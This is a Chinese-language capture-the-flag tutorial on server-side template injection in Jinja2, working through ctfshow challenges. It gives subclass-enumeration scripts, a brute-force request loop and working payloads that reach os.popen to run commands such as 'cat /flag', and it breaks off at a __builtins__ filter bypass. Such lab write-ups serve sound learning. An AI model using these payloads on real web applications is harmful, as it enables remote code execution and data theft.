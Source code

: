 # 从0开始学web之SSTI模板注入

基础：

https://www.cnblogs.com/micr067/p/13258791.html

https://xz.aliyun.com/t/3679/

https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/

Python 沙盒逃逸备忘：https://www.k0rz3n.com/2018/05/04/Python%20%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8%E5%A4%87%E5%BF%98/

ssti总结全面：  https://hetian.blog.csdn.net/article/details/111399386

下面以ctfshow得 ssti题目来练习。

这里附上几个寻找子类的脚本

本地寻找本地的类脚本：

```python
search = 'popen'
num = -1
for i in [].__class__.__base__.__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i,num)
    except:
        pass
```

寻找题目中类的脚本：

```
import json
 
a = """
<class 'type'>,...,<class 'subprocess.Popen'> # 所有子类
"""
 
num = 0
allList = []
 
result = ""
for i in a:
    if i == ">":
        result += i
        allList.append(result)
        result = ""
    elif i == "\n" or i == ",":
        continue
    else:
        result += i
        
for k,v in enumerate(allList):
    if "os._wrap_close" in v:
        print(str(k)+"--->"+v)
```

还可以使用 url 请求的方式去跑

```python
import requests
import time

for i in range(0,300):
    time.sleep(0.60)
    payload = "{{().__class__.__base__.__subclasses__()[%s]}}"%i
    url = "http://xxx/"
    r = requests.request(url=url,param=payload)
    if "os._wrap_close" in r.text:
        print(r.text)
        print(i)
        break
```



## web361~os._wrap_close中popen

判断有模板注入：

```
?name={{7*7}}
```

页面回显

```
Hello 49
```

找到 object 类：

```
?name={{[].__class__.__base__}}
```

在找到子类：

```
?name={{[].__class__.__base__.__subclasses__()}}
```

找可利用类，os, `<class 'os._wrap_close'>`

```
?name={{[].__class__.__base__.__subclasses__()[132]}}
```

 `init`初始化类，

```
?name={{[].__class__.__base__.__subclasses__()[132].__init__}}
```

`globals` 会以字典类型返回当前位置的全部模块，方法和全局变量，用于配合`init`使用

```
?name={{[].__class__.__base__.__subclasses__()[132].__init__.__globals__}}
```

有`popen`函数，

```
?name={{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('dir /').read()}}
```

执行命令进行利用。

payload:

```
?name={{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```



* popen 函数     方法用于从一个命令打开一个管道。

  https://www.runoob.com/python/os-popen.html

## web162~builtins代码执行

经测试，过滤了一些数字，导致使用的类产生限制，

```
?name={{[].__class__.__base__.__subclasses__()[3]}}
```

发现数字 2 和 3 被过滤。

![image-20210422215805372](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210422215812.png)

尝试寻找其他类进行绕过。

使用`__builtins__`  绕过，首先找打包含其的类。



